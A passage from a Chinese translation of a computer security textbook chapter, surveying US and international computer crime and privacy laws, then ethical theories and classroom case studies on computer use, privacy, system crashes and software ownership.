• 记录信息安全实践。

• 追踪信息披露情况。

• 制定患者查阅和复制其信息的方法。

• 至少每三年对员工进行一次培训。

或许影响最深远的是要求医疗保健组织制定“业务伙伴合同”，即关于如何保护实体间共享数据的协调协议。这一要求可能会影响医生、诊所、实验室、医院、保险公司以及处理此类数据的任何其他组织之间患者信息的共享和传输。

### USA Patriot Act

2001 年，针对美国发生的恐怖袭击，通过了 USA Patriot Act。该法案包含若干条款，支持执法部门访问电子通信。根据该法案，执法部门只需说服法院，目标很可能是外国势力的代理人，即可获得窃听令。Patriot Act 的主要计算机安全条款是对 Computer Fraud and Abuse Act 的修正：

- 故意传播代码导致受保护计算机受损属于重罪。

- 因未经授权访问而鲁莽导致计算机系统受损也属于重罪。

- 因未经授权访问受保护计算机而造成损害（即使是无意的）属于轻罪。

### The CAN SPAM Act

未经请求的“垃圾”电子邮件，即垃圾邮件，当然是一个问题。分析师估计，多达 70% 的电子邮件流量都是垃圾邮件。

为了回应选民的压力，2003 年美国立法者通过了 Controlling the Assault of Non-Solicited Pornography and Marketing (CAN SPAM) Act。（人们不禁要问，花了多少工作人员才找到能组成该首字母缩略词的一系列词语。）该法律的关键要求如下：

- 禁止电子邮件中出现虚假或误导性的标头信息。

- 禁止欺骗性的主题行。

- 要求商业电子邮件为收件人提供退订方式。

- 禁止出售或转让已退订人员的电子邮件地址。

- 要求商业电子邮件标识为广告。

批评者指出，该法律取代了州法律，而一些州的法律更严格。它也可被解读为允许商业电子邮件，只要邮件不具欺骗性。最后，也是最重要的，它对来自离岸的垃圾邮件几乎没有监管作用：垃圾邮件发送者只需从国外的邮件服务器发送垃圾邮件，也许是在一个更有兴趣为其国家 ISP 创造业务而非控制全球垃圾邮件的国家。最能说明问题的结果是：自该法律通过以来，垃圾邮件量并未下降。

### California Breach Notification

加利福尼亚州是美国第一个颁布违规通知法的州，于 2003 年生效通过了 SB1386。该法律要求在加利福尼亚州开展业务的任何公司或任何加利福尼亚州政府机构，必须通知个人任何已发生或合理认为已发生的、危及加利福尼亚州居民个人信息的违规行为。作为一项州法律，它仅限于加利福尼亚州居民和公司。此后，至少有 40 个其他州也跟进，出台了某种形式的违规通知授权。

该法律应用最广泛的报道案例发生在 2005 年 2 月，当时 Choicepoint 披露一些加利福尼亚州居民因 145,000 条个人身份信息丢失而受到影响。最初仅通知了受影响的加利福尼亚州居民，但该披露消息公开后，Choicepoint 透露了涉及的总人数并开始通知他们。

## International Dimensions

到目前为止，我们探讨了美国的法律。但美国以外的许多人也会阅读本书，也许会想知道为什么要了解外国的法律。这个问题有两个答案。

从技术上讲，美国的计算机安全法律与许多其他国家的法律相似：各国立法者从其他国家通过的法律中了解微妙的法律要点以及解释或执行困难。许多其他国家，如澳大利亚、加拿大、巴西、日本、捷克共和国和印度，最近都颁布了计算机犯罪法。这些法律涵盖欺诈、未经授权的计算机访问、数据隐私和计算机滥用等罪行。International Think Tank on Justice, Peace and Security in Cyberspace ([`www.cybercrimelaw.net/Cybercrimelaw.html`](http://www.cybercrimelaw.net/Cybercrimelaw.html)) 维护着一个极好的国家网络犯罪法律库，收录了从阿尔巴尼亚到赞比亚 70 多个国家的法律。

研究外国法律的第二个原因是互联网是一个国际实体。一国公民受其他国家用户的影响，一国用户可能受其他国家法律的管辖。因此，你需要知道哪些法律可能影响你。计算机犯罪的国际性使生活复杂得多。例如，A 国公民可能身处 B 国，连接 C 国的 ISP，利用 D 国的受害主机，攻击 E 国的机器（更不用说通信线路经过数十个其他国家）。起诉这种犯罪可能需要所有五个国家的合作。攻击者可能需要从 B 国引渡到 E 国受审，但 B 国和 E 国之间可能没有针对计算机犯罪的引渡条约。而且在 D 国获得的证据可能因获取或存储方式而在 E 国不被采纳。而在 E 国构成的犯罪在 B 国可能不算犯罪，因此执法部门即使同情，也可能无法采取行动。

虽然计算机犯罪确实具有国际性，但不同司法管辖区的不同法规阻碍了国际计算机犯罪的起诉。在本节其余部分，我们简要讨论世界各地与美国法律不同且计算机安全学生应感兴趣的法律。

### Council of Europe Agreement on Cybercrime

2001 年 11 月，美国、加拿大、日本和 22 个欧洲国家签署了 Council of Europe Agreement on Cybercrime，以定义网络犯罪活动并支持跨国界的调查和起诉。该条约的意义不在于这些活动被定为非法，而在于各国承认这些行为跨越国界均属犯罪，使执法机构更容易合作，也使罪犯因在一国境内实施的针对另一国的犯罪而被引渡成为可能。但要真正支持对计算机罪犯的调查、起诉和定罪，必须有 25 个以上的国家参与。

该条约要求批准国采用相似的刑法，涵盖黑客攻击、计算机相关欺诈和伪造、未经授权访问、侵犯版权、网络破坏和儿童色情制品。条约还包含调查权力和程序条款，如计算机网络搜查和通信拦截，并要求在搜查、扣押和引渡方面进行跨境执法合作。原始条约已通过一项补充议定书得到补充，规定通过计算机网络发布种族主义和仇外宣传属于刑事犯罪。

### E.U. Data Protection Act

#### 欧盟数据保护法案

欧盟数据保护法案基于欧洲隐私指令，是欧盟所有成员国的示范立法。它确立了成员国所有公民的隐私权和保护责任。该法案管辖个人数据的收集和存储，例如姓名、地址和身份证号。法律要求收集数据必须有商业目的，并控制防止数据泄露。该法最初颁布于 1994 年，是最早确立个人数据隐私保护要求的法律之一。最重要的是，如果欧盟组织将受保护数据传出欧盟，该法案要求非欧盟国家提供同等的保护。`Chapter 9` 包含关于该指令的更多细节。

### 受限内容

一些国家有法律控制其境内允许的互联网内容。新加坡要求服务提供商过滤允许进入的内容。中国禁止扰乱社会秩序或破坏社会稳定的材料。突尼斯有一项法律，对批评性言论实施与其他媒体形式相同的控制 [HRW99]。


有人进一步提议立法，使通过某个国家传输该国禁止的内容成为非法行为，无论该内容的源头或目的地是否在该国。考虑到互联网复杂且不可预测的路由结构，遵守这些法律（更不用说执行它们）实际上是不可能的。

### 为什么计算机罪犯难以抓捕

仿佛计算机犯罪法律和起诉还不够，执法机构抓捕计算机罪犯也很困难。主要有两个原因。

首先，计算机犯罪是一项跨国活动，通常必须在国家或地方层面追查。没有关于计算机犯罪的国际法。尽管主要工业国在追踪计算机罪犯方面合作非常有效，但罪犯知道存在他们无法被抓获的“安全避风港”。通常，罪犯的踪迹会在国家边界处戛然而止。许多公司（例如，参见 [VER14、SYM14 和 MCA14]）按多种因素分析互联网攻击趋势。全球各地的国家都出现在这些名单上，且数字每年都在波动，这表明攻击者能够且确实从许多不同的国家开展活动。频繁遭受攻击的国家包括美国和欧洲等地，因为这些地方的计算机用户比例较高；互联网攻击的频繁来源国包括俄罗斯、巴西、印度和美国，这在一定程度上也是因为这些国家拥有大量熟练的计算机用户。

复杂性比攻击来源国更为关键。正如我们在本书中反复强调的，网络攻击难以追踪和调查，因为它们可能涉及许多步骤。聪明的攻击者会让攻击“跳板”式地经过许多地方以掩盖踪迹。每一步都迫使调查人员完成更多法律程序。如果线索从服务器 A 指向 B 再指向 C，执法调查人员需要 A 处数据的搜查令，以及 B 和 C 的搜查令。即使获得了搜查令，调查人员还得找到合适的管理员并送达搜查令，才能开始获取数据。在调查人员获取并送达搜查令、更不用说追踪线索和关联发现的时间里，攻击者已仔细抹除了数字证据。

***

**影响众多人的计算机攻击往往很复杂，涉及多个国家的人员和设施，从而使起诉变得复杂。**

***

在一篇 *CNET News* 文章中，Sandoval [SAN02] 表示，执法机构很少能追踪到足以实施复杂攻击的复杂黑客。Sandoval 引用了计算机安全协会编辑总监 Richard Power 的话：“这是一个世界级的生意。”独立调查员 Dan Clements 说：“只有约 10% 的活跃黑客足够老练，能持续以这种方式作案，但他们几乎总是成功的。”

### 计算机犯罪法未涵盖的内容

即使法规中包含了定义，法院仍须解释何为计算机。立法者无法精确定义何为计算机，因为计算机技术被用于许多其他设备，如机器人、计算器、手表、汽车、微波炉和医疗仪器。更重要的是，我们无法预测十年或五十年后可能发明何种设备。因此，这些法律中的措辞指出了立法机关试图纳入计算机范畴的设备类型，并将具体案件的裁决权留给法院。不幸的是，法院建立判例模式需要一段时间，且不同法院在类似情况下可能做出不同裁决。这些术语的解释在未来一段时间内仍将处于不稳定状态。

个人隐私的价值以及关于个人数据的机密性甚至更难界定。在后面的章节中，我们将探讨伦理和个人道德如何在法律止步的地方发挥作用。

### 计算机安全法律问题小结

本节描述了计算与法律关系的四个方面。首先，我们介绍了版权、专利和商业秘密等法律机制作为保护计算机硬件、软件和数据机密性的手段。这些机制在计算机发明前就已设计出来，因此其对计算需求的适用性有限。然而，程序保护需求尤为迫切，软件公司正推动法院扩大这些保护手段的解释范围以涵盖计算机。

我们还在软件编写者的背景下探讨了雇主与雇员的关系。完善的法律和判例控制着雇员对为公司编写的软件的合法访问权限。

第三，我们考察了软件漏洞的法律层面：谁对软件错误负责，以及如何追究该责任？此外，我们还考虑了报告软件错误的替代方式。

第四，我们指出了调查和起诉计算机犯罪的一些困难。几个例子展示了法院如何处理计算机安全漏洞。法律体系正谨慎而坚定地接受计算机。我们描述了几项重要的计算机犯罪立法，它们代表了缓慢的前进步伐。

### 11.6 计算机安全中的伦理问题

最后一节有助于理清计算机安全所涉及的伦理问题。我们不提供答案。相反，在列出并解释一些伦理原则后，我们提出几个案例研究以应用这些原则。每个案例后附有一份可能涉及的伦理问题清单，尽管该清单不一定详尽无遗或具有定论性。本节的主要目的是探讨与计算机安全相关的某些伦理问题，并展示伦理如何作为一种控制手段发挥作用。

#### 法律与伦理的区别

##### 法律、伦理与道德

正如我们之前所指出的，法律并不总是处理人类行为问题的恰当方式。要制定一部法律，使其仅排除我们想要禁止的事件，这很难做到。例如，一部限制动物进入公共场所的法律，必须经过修改以*允许*盲人携带导盲犬。立法者并非计算机专业人士，在起草涉及计算机事务的法律时，很难想到所有的例外情况。即使法律构思周全、措辞严谨，其执行也可能很困难。法院案件积压严重，与所获收益相比，起诉相对轻微的违法行为可能过于耗时。

因此，制定法律来描述并强制执行社会可接受的所有行为形式是不可能或不切实际的。相反，社会依赖**伦理**或**道德**来规定普遍接受的正当行为标准。（在本节中，伦理和道德这两个术语可互换使用。）**伦理**是客观定义的关于对与错的标准。伦理标准往往是理想主义原则，因为它们聚焦于单一目标。然而，在特定情境下，可能涉及多个道德目标，因此人们必须确定一个在考虑所有目标后均属适当的行动。尽管宗教团体和专业组织提倡特定的道德行为标准，但最终每个人都要为在特定情境下做什么负责。因此，通过我们的选择，我们每个人都定义了一套个人的伦理实践准则。一套伦理原则被称为**伦理体系**。

##### 法律与伦理的区别

伦理在几个重要方面与法律不同。

1.  **普遍性：** 法律适用于所有人。一个人可能不同意法律的意图或含义，但这不能成为违抗法律的借口。

2.  **冲突解决：** 法院有一套常规程序来裁定当两部法律发生冲突时，哪一部法律优先适用。

3.  **对与错的定义：** 法律和法院将某些行为认定为正确，另一些行为认定为错误。从法律角度来看，任何不违法的行为都是正确的。

4.  **强制执行：** 法律可以被强制执行，以纠正非法行为造成的错误。

相比之下，伦理是个人的：

1.  **主观性：** 两个人可能拥有不同的道德判断框架。一个人认为完全正当的事，另一个人绝不会考虑去做。

2.  **目标冲突：** 伦理立场可以而且经常发生冲突。例如，在大多数伦理体系中，人的生命价值至关重要。大多数人不会导致一条生命的牺牲，但在特定语境下，有些人会赞成牺牲一人以救另一人，或牺牲一人以救多人。一条生命的价值无法轻易与其他生命的价值相衡量，许多伦理决策必须建立在这种模糊性之上。然而，不存在伦理立场的仲裁者：当两个伦理目标发生碰撞时，每个人必须自行选择哪个目标占主导地位。

3.  **无统一标准：** 两个人对伦理价值的评估可能不同；在伦理判断中，不存在对与错的普遍标准。一个人也不能仅参考他人的所作所为，作为选择正确行为的指南。

4.  **无强制执行：** 最后，伦理选择没有强制执行机制。

我们在表 11-3 中总结了这些差异。


**表 11-3** 法律与伦理的比较

##### 伦理学研究

伦理学研究并不容易，因为相关问题错综复杂。有时人们会将伦理与宗教混淆，因为许多宗教提供了一个用于做出伦理选择的框架。然而，伦理可以脱离任何宗教联系而被研究。如果有一套人人同意的普遍伦理原则，困难的选择将更容易做出。但社会、文化和宗教信仰的多样性，使得确定这样一套普遍原则成为不可能。在本节中，我们将探讨其中一些问题，然后考虑理解伦理如何有助于处理计算机安全问题。

> **伦理是在特定情境下关于对与错行为的个人选择。**

###### 伦理与宗教

伦理是一套用于在特定情境下证明何为对、何为错的原则或规范。为了理解伦理*是什么*，我们可以先尝试理解它*不是什么*。伦理原则不同于宗教信仰。宗教基于对世界起源以及控制力量或神灵存在的个人观念。许多道德原则体现在主要宗教中，个人道德的基础是信仰和信念，这与宗教非常相似。然而，具有不同宗教背景的两个人可能发展出相同的伦理哲学，而同一宗教的两个信徒在特定情境下可能得出截然相反的伦理结论。最后，我们可以从伦理角度分析情境并得出伦理结论，而无需诉诸任何特定宗教或宗教框架。因此，区分伦理与宗教非常重要。

###### 伦理原则非普世

伦理价值因社会而异，甚至在同一社会内因人而异。例如，隐私概念在西方文化中很重要。但在东方文化中，隐私并不受推崇，因为人们将隐私与“有不可告人之事”联系在一起。西方人对隐私的渴望不仅不被理解，反而带有负面含义。因此，人们的态度可能受文化或背景影响。

此外，个人的行为标准可能受一生过往事件的影响。在大家庭中长大的人，可能比很少需要分享的独生子女更强调对财产的个人控制和所有权。重大事件或与他人的密切接触也能塑造一个人的伦理立场。尽管存在这些差异，但如何进行道德判断的基本原则是相同的。

虽然这些伦理方面相当合理且易于理解，但它们导致人们不信任伦理，因为伦理并非建立在所有人都能接受的基本原则之上。此外，具有科学或技术背景的人期望精确性和普遍性。

###### 伦理不提供标准答案

**伦理多元论**是指承认在特定情境下，不止一种立场可能在伦理上是正当的——甚至是同样正当的。多元论是指出两个人可能在伦理问题上存在合理分歧的另一种方式。我们在政治和宗教等领域预期并接受分歧。

> **在任何特定情境下，不止一种立场可能在伦理上是正当的。**

然而，在科学和技术领域，人们期望找到唯一、明确且无歧义的答案。在科学中，必须有一个答案在某种意义上是正确的或可证明的，而所有其他答案都是错误的。科学为生活提供了基本解释。一些科学家排斥或误解伦理，因为它是“软性的”，意味着它没有底层框架，或者不依赖基本真理。

##### 科学真理与伦理推理

###### 科学真理的演进

只需研究科学发现的历史，即可看出科学本身在很大程度上建立在暂时的真理或理论之上。多年来，天文学家一直认为地球是太阳系的中心。托勒密建立了一套复杂的本轮框架，即行星轨道内的轨道，以解释观测到的自转周期的不一致性。最终，他的理论被行星绕太阳运行的哥白尼模型所取代。同样，爱因斯坦的相对论也反对物理学传统的量子基础。随着我们了解或观测到更多，以及新解释的提出，科学史上充斥着失宠的理论。科学家在提出后来被证明错误的理论时并没有错；他们只是基于现有数据得出了最佳结论。每当新理论被提出时，一些人会欣然接受新提议，而另一些人则固守旧说。

但科学的基础被假定为“真理”。一项陈述预期应是可证真、可证伪或未被证实的，但一项陈述绝不可能既是真的又是假的。科学家对伦理学感到不适，因为伦理学不提供这种清晰的区分。但实际上，根据情境得出最佳结论，与在复杂且有争议的情境中选择最佳（合乎伦理的）行动方案并无二致。

更糟的是，不存在伦理真理的更高权威。两个人可能对某一情境的伦理性持有不同意见，但无人可供申诉以作出谁“正确”的最终裁决。相互冲突的答案不应阻止人们考虑计算机安全中的伦理问题，也不应成为我们不作出并捍卫伦理选择的借口。

###### 伦理推理

大多数人经常做出伦理判断，也许每天都在做。（最好从家乡商人还是全国连锁店购买？我应该花时间参加志愿者组织还是和朋友相聚？将敏感数据发布给可能没有正当理由但需要访问该数据的人，是否可以接受？）因为我们都从事伦理选择，所以我们应该弄清我们是如何做到这一点的，以便我们能学会在专业场合应用伦理原则，就像在私人生活中那样。

伦理学研究能产生两个积极结果。第一，在我们已经知道何为对、何为错的情境中，伦理学应帮助我们为自己的选择提供正当理由。第二，如果我们不知道在某一情境下该采取何种合乎伦理的行动，伦理学可以帮助我们识别涉及的问题，以便我们能做出合理的判断。

####### 审视情境中的伦理问题

那么，我们该如何处理计算机安全中的伦理选择问题？以下是做出并证明伦理选择合理性的几个步骤。

**1. 理解情境**。了解情境的事实。提出解释或澄清性问题。尝试查明是否有任何相关因素未被考虑在内。

**2. 了解几种伦理推理理论**。要做出伦理选择，就要知道如何为其辩护。

**3. 列出涉及的伦理原则**。本案中可适用哪些不同哲学？这些原则中是否有包含其他原则的情况？

**4. 确定哪些原则优于其他原则**。这是一个主观评价。它通常涉及将一项原则推演至逻辑结论，或确定一项原则明显取代另一项原则的情形。

**5. 做出并捍卫伦理选择**。

最重要的步骤是第一步和第三步。人们往往根据不完整的信息判断情境，这种做法会导致基于偏见、猜疑或错误信息的判断。对引发的所有不同伦理问题的考虑，构成了评估第四步中相互竞争的利益的基础。

####### 伦理原则示例

伦理推理有两大学派：一派基于行动产生的善，另一派基于人的某些表面义务。

######## 基于后果的原则

伦理学的**目的论**理论关注行动的后果。应选择的行动是那种导致未来最大善和最小伤害的行动。例如，如果同班同学请你为他编写一门课布置的程序，你可能会权衡利弊：好的方面是（他会欠你个人情），坏的方面是（你可能被抓住，导致尴尬和可能的纪律处分，加上你的朋友将学不到编写程序所获得的技术，使他知识欠缺）。负面后果明显超过正面后果，因此你会拒绝。*目的论*是应用于许多行为理论的总称，所有这些理论都关注行动的目标、结果或后果。

目的论有两种重要形式。**利己主义**是这样一种形式：它认为道德判断基于对行动者本人的积极利益。利己主义者权衡所有可能行为的结果，并选择为自己产生最多个人利益且负面后果最小的那一个。对他人的影响无关紧要。例如，一个利己主义者试图在时间紧迫时为编写粗劣计算机代码的伦理性辩护，可能会按如下论证：“如果我快速完成项目，就会让经理满意，从而给我带来加薪和其他好处。客户不太可能懂得足够多的程序知识来投诉，所以我不太可能被指责。我公司的声誉可能会受损，但这不会直接追溯到我身上。因此，我可以为编写粗劣代码辩护。”

**功利主义**原则也是对好坏结果的评估，但参考群体是整个宇宙。功利主义者选择能为所有人带来最大集体利益且可能产生最小负面影响的行动。在这种情况下，功利主义者会评估个人的利弊、公司的利弊、客户的利弊，以及或许整个社会的利弊。例如，设计监测烟囱排放物软件的开发人员需要评估其对所有呼吸者的影响。尽管会有让管理层不悦的负面个人后果，功利主义者可能认为花时间编写高质量代码会给所有人带来更大的利益。

######## 基于规则的原则

另一种伦理理论是**义务论**，它建立在责任感之上。这一伦理原则指出，某些事物本身就是好的。这些天然好的事物是好的规则或行为，不需要更高层面的辩护。某事物就是*好*；不必根据其效果来判断。

内在善的事物示例（来自 Frankena [FRA73]）有：

- 真理、知识和各种真实见解；理解、智慧
- 善恶的公正分配；正义
- 愉悦、满足；幸福；生命、意识
- 和平、安全、自由
- 良好声誉、荣誉、尊重；相互喜爱、爱、友谊、合作；道德上良好的品性或美德
- 美、审美体验

**规则义务论**是认为某些普遍的、不证自明的、自然的规则规定了我们的适当行为的伦理推理学派。出于我们彼此的责任，坚持某些基本道德原则；这些原则常被表述为权利：知情权、隐私权、劳动公平报酬权。Sir David Ross [ROS30] 列出了所有人类应尽的各种义务：

- *忠诚*，或诚实
- *补偿*，为先前的错误行为补偿的义务
- *感恩*，对先前服务或善举的感激
- *正义*，根据功绩分配幸福
- *行善*，帮助他人或改善其生活的义务
- `nonmaleficence`，不伤害他人
- `self-improvement`，持续变得更好，无论是在精神层面还是道德层面（例如，不再犯同一个错误）

另一种推理流派基于每个人推导出的规则。宗教、教诲、经验和反思引导每个人形成一套个人道德原则。伦理问题的答案在于根据个人认为正确的行为来权衡价值观。

####### 伦理理论小结

我们已经了解了伦理理论的两个基础，每个基础有两种应用方式。简单来说，这两个基础是基于后果和基于规则，应用方式则是个人或普遍。这些理论如表 11-4 所示。


**表 11-4** 伦理理论的基础

在下一节中，我们将应用这些理论来分析计算机安全伦理中出现的特定情况。

### 11.7 伦理视角的事件分析

为了理解伦理如何影响职业行为，伦理学家通常研究示例情况。本节其余部分包含几个具有代表性的例子。这些案例的结构模仿了 Donn Parker [PAR79] 作为 AFIPS/NSF 计算与技术伦理研究的一部分所开发的案例。每个场景研究旨在揭示特定的伦理要点，其中一些列在案例之后。你应该反思每个案例，自行判断最具影响力的要点是什么。这些案例适合用于课堂讨论，届时必定会提及其他价值观。最后，每个事件不给出结论，因为每个人必须独自评估伦理形势。在课堂讨论中进行投票可能是合适的。但请记住，伦理不是由多数决定的。站在多数派一方的并非“正确”，其余的也并非“错误”。

#### 情况 I：计算机服务的使用

本研究涉及决定何为计算机时间的适当使用。计算机时间的使用既关乎一个人的访问权，也关乎服务质量对其他人的可用性。当事人被允许为特定目的访问计算设施。许多公司依赖不成文的行为准则来约束拥有合法计算系统访问权限人员的行为。本研究涉及的伦理问题有助于理解这一不成文准则。

#### 事件

Dave 在一家大型软件公司担任程序员。他编写和测试编译器等实用程序。公司运行两个计算班次：白天运行程序开发和在线应用；夜间完成批量生产作业。Dave 可以访问工作负载数据，并了解到晚间批量运行与白天编程任务互补；即在夜班增加编程工作不会对其他用户的计算机性能产生不利影响。

Dave 在正常工时结束后返回，开发一个管理自己股票投资组合的程序。他对系统的消耗极小，且使用极少的耗材，如打印纸。Dave 的行为符合伦理吗？

##### 涉及的价值问题

以下列出了该事件涉及的一些伦理原则。

- `Ownership of resources`（资源所有权）。公司拥有计算资源，并为其自身计算需求提供这些资源。
- `Effect on others`（对他人的影响）。尽管可能性不大，但 Dave 程序中的缺陷可能会对其他用户产生不利影响，甚至可能因系统故障导致服务中断。
- `Universalism principle`（普遍主义原则）。如果 Dave 的行为是可以接受的，那么其他人这样做也应当可以接受。然而，过多员工在晚上工作可能会降低系统效率。
- `Possibility of detection, punishment`（被发现和惩罚的可能性）。Dave 不知道如果被公司发现，他的行为会被判定为错还是对。如果公司认定为不当使用，Dave 可能会受到惩罚。


## 还涉及哪些其他问题？哪些原则比其他原则更重要？

### 分析

功利主义者会考虑所有人利大于弊的总和。Dave 从使用计算机时间中获益，尽管对于此应用而言时间量不大。Dave 面临惩罚的可能性，但他可能认为这不太可能发生。公司既未因该活动受损，也未获益。因此，功利主义者可以论证 Dave 的使用是合理的。

普遍主义原则似乎会导致问题，因为显然如果每个人都这样做，服务质量会下降。功利主义者会说，每个新用户都必须单独权衡利弊。Dave 的使用可能不会给系统带来负担，Ann 的也不会；但当 Bill 想使用系统时，系统已相当繁忙，Bill 的使用*将会*影响其他人。

### 替代情况

如果考虑以下任何行为或特征，是否会影响该情况的伦理性质？

*   Dave 开办了一项为许多人管理股票投资组合以谋取利润的业务。
*   Dave 的薪资低于其背景应有的平均水平，暗示计算机使用权是 Dave 应得的额外福利。
*   Dave 的雇主知晓其他员工做类似的事，却默许不予制止。
*   Dave 在政府机关工作而非私营公司，并推理计算机属于“人民”。

## 情况 II：隐私权

在本事件中，核心问题是个人的隐私权。隐私既是法律问题也是伦理问题，因为前一节讨论了相关法律。

### 事件

Donald 在县记录部门担任计算机记录文员，拥有财产税记录文件的访问权限。为了一项科学研究，研究人员 Ethel 获得了部分记录数值部分的访问权限——但不包括对应的姓名。

Ethel 发现了一些她想利用的信息，但她需要某些财产对应的姓名和地址。Ethel 请求 Donald 检索姓名和地址，以便她联系这些人获取更多信息并争取进一步研究的许可。

Donald 应该发布姓名和地址吗？

### 涉及的一些原则

以下是该案例涉及的一些伦理原则。还有哪些伦理原则？哪些原则从属于其他原则？

*   **`Job responsibility`（工作职责）**。Donald 的工作是管理个人记录，而非决定适当用途。政策决定应由更高权限的人做出。
*   **`Use`（用途）**。记录用于合法的科学研究，而非牟利或暴露敏感数据。（然而，Ethel 的授权访问仅限于数值数据，不包括将财产状况与个人关联的私人信息。）
*   **`Possible misuse`（潜在滥用）**。尽管他认为 Ethel 的动机正当，但 Donald 无法保证 Ethel 仅会将数据用于跟进有趣的数据项。
*   **`Confidentiality`（保密性）**。如果本意让 Ethel 拥有姓名和地址，最初就会提供给她。
*   **`Tacit permission`（默许）**。Ethel 已获准为研究目的访问这些记录的部分内容，因此她应有权访问完整记录以完成研究。
*   **`Propriety`（得体性）**。因为 Ethel 无权获取姓名和地址，且姓名和地址代表数据的机密部分，Donald 应拒绝 Ethel 的访问请求。

### 分析

规则义务论者会主张隐私是固有的善，不应侵犯他人的隐私。因此，Donald 不应发布姓名。

### 基础案例的延伸

我们可以考虑该场景的几种可能的延伸。这些延伸探讨了该案例中涉及的其他伦理问题。

*   假设唐纳德负责确定文件的允许访问权限。他在决定是否授予埃塞尔访问权限时，会涉及哪些伦理问题？
*   埃塞尔是否应该被允许联系相关个人？也就是说，卫生部门是否应该向研究人员发布个人姓名？卫生部门需要考虑哪些伦理问题？
*   假设埃塞尔联系个人征求许可，三分之一的人回复同意，三分之一的人回复拒绝，三分之一的人未回复。埃塞尔声称至少需要一半的个人才能进行有效研究。埃塞尔有哪些可选方案？在决定采取哪种方案时涉及哪些伦理问题？

为了说明伦理可以依赖于情境，让我们考虑该情况的一些变体。请注意，这些变化影响的是问题的领域，但不影响基本问题：对个人数据的访问。

如果领域是医疗记录，该案例将受 `HIPAA`（健康保险流通与责任法案）管辖，因此我们首先会考虑法律问题，而非伦理问题。但请注意，根据涉及的医疗状况不同，情况会发生微妙的变化。如果记录涉及“普通”病症（感冒、骨折、肌肉损伤），你可能得出一个结论；但如果病例涉及性传播疾病或艾滋病毒，你可能得出不同的结论。如果研究涉及当事人可能不知情的遗传病症（例如亨廷顿舞蹈症或血友病的携带者），你也可能得出不同的结论。

但再次改变情境，考虑网页浏览习惯。如果唐纳德为互联网服务提供商工作，并能确定某人访问过的所有网站，披露这些信息公平吗？假设唐纳德想将数据出售给商业营销公司。那公平吗？

另一种延伸涉及的不是个人，而是公司。跟踪用户的可能不是唐纳德，而是公司（正如我们在第 3 章和第 9 章所述）。公司出售用户跟踪数据合乎道德吗？如果用户在一份用晦涩法律术语撰写的长期使用条款中同意出售其跟踪数据，那合乎道德吗？如果用户由匿名标识符而非姓名标识，那合乎道德吗？

## 情境 III：拒绝服务

这个故事涉及一个人的计算行为对其他用户影响的相关问题。这种情况涉及拥有合法访问权限的人，因此标准的访问控制不应将他们排除在外。然而，由于某些人的行为，其他人被拒绝了对系统的合法访问。因此，本主题的重点在于所有用户的权利。

### 事件经过

查理和卡罗尔是某大学计算机科学专业的学生。各自为课程作业编写了一个程序。查理的程序碰巧发现了编译器中的一个缺陷，最终导致整个计算系统故障；所有用户都丢失了当前计算的结果。查理的程序使用了语言的可接受特性；错误在于编译器。查理没想到他的程序会导致系统故障。他向计算中心报告了该程序，并尝试寻找不触发系统缺陷的方法来实现预期结果。

系统继续周期性地故障，除第一次外共计十次。系统故障时，有时查理在运行程序，有时则没有。主任联系了查理，查理向计算中心工作人员展示了所有程序版本。工作人员得出结论：查理可能无意中导致了部分（但非全部）系统故障，但他解决分配问题的最新方法不太可能导致额外的系统故障。

进一步分析后，计算中心主任注意到，在前八次（共十次）系统故障中，卡罗尔每次都有程序在运行。主任利用管理员权限检查了卡罗尔的文件，发现了一个利用相同漏洞的文件，就像查理的程序那样。主任立即暂停了卡罗尔的账户，拒绝卡罗尔访问计算系统。因此，卡罗尔无法按时完成作业，该课程得了 D，并退学了。

### 分析

在这种情境下，选择被故意设定为非显而易见。情境被呈现为一个已完成的场景，但在研究它时，你被要求提出当事人*本可以采取*的替代行动。通过这种方式，你可以建立一套行动方案库，以便在未来可能出现的类似情境中加以考虑。

*   需要哪些额外信息？
*   谁在本案中拥有权利？是什么权利？谁有责任保护这些权利？（伦理研究中的这一步骤用于阐明在义务论分析中谁应被视为参考群体。）
*   查理的行为负责任吗？凭什么证据你得出此结论？卡罗尔呢？如何判断？计算中心主任的行为负责任吗？如何判断？（在这一步中，你寻找应被确认的过往判断或应被纠正的过错。）
*   查理、卡罗尔或主任本可以采取哪些更负责任的替代行动？

## 情境 IV：程序的所有权

在这个问题中，我们考虑程序归谁所有：程序员、雇主、管理者，还是所有人。从法律角度来看，正如本章前面所述，大多数权利归属于雇主。然而，本练习通过提出几种可能用于支持本案立场的相互竞争的论点，对该立场进行了扩展。正如上一节所述，程序保密的法律控制可能复杂、耗时且昂贵。在本研究中，我们寻找能够防止诉诸法律制度的个人伦理控制。

### 事件经过

格雷格是大型航空航天公司“星际计算机”（Star Computers）的一名程序员，该公司从事许多政府合同项目；凯西是格雷格的主管。格雷格被分配编写各种模拟程序。

为了提高编程能力，格雷格编写了一些编程工具，例如交叉引用工具和一个能从源代码自动提取文档的程序。这些不是分配给格雷格的任务；他独立编写并在工作中使用，但未告诉任何人。格雷格是在晚上、在家里、在他的个人电脑上编写这些工具的。

格雷格决定自行推销这些编程辅助工具。当星际公司的管理层得知此事后，指示凯西告诉格雷格，他无权推销这些产品，因为受雇时他签署了一份表格，声明所有发明归公司所有。凯西不同意这一立场，因为她知道格雷格是利用自己的时间完成这项工作的。她勉强告诉格雷格不能推销这些产品。她还向格雷格索要这些产品的副本。

凯西辞去星际公司的工作，去竞争对手“紫罗兰计算机”（Purple Computers）担任主管。她带走了格雷格产品的副本，并分发给与她共事的人员。这些产品非常成功，大大提高了她员工的效率，凯西受到管理层表扬并获得丰厚奖金。格雷格得知此事后联系凯西，凯西辩称：既然产品被认定属于星际公司，而星际公司主要靠政府资助运作，那么这些产品实际上属于公共领域，因此不属于任何特定个人。

### 分析

这个故事当然具有重大的法律意义。实际上，每个人都可以起诉其他所有人，并且根据他们愿意在法律费用上花费多少，他们可以让案件在法庭系统中拖上数年。很可能没有任何判决能让所有人满意。

让我们把法律层面放在一边，来看看伦理问题。我们想要弄清谁可能做了什么，以及可能做出哪些改变来防止出现需要法院来理清的混乱局面。

首先，让我们探讨一下涉及的原则。

*   **权利**。Greg、Cathy、Star 和 Purple 各自的权利是什么？
*   **依据**。是什么赋予了 Greg、Cathy、Star 和 Purple 这些权利？本案涉及公平竞争、商业惯例、财产权等哪些原则？
*   **优先级**。这些原则中哪些低于其他原则？哪些优先？（注意，可能无法比较两种不同的权利，因此分析结果可能产生一些重要但无法排出第一、第二、第三位的权利。）
*   **额外信息**。为了分析此案，你还需要哪些额外事实？你在分析时做了哪些假设？

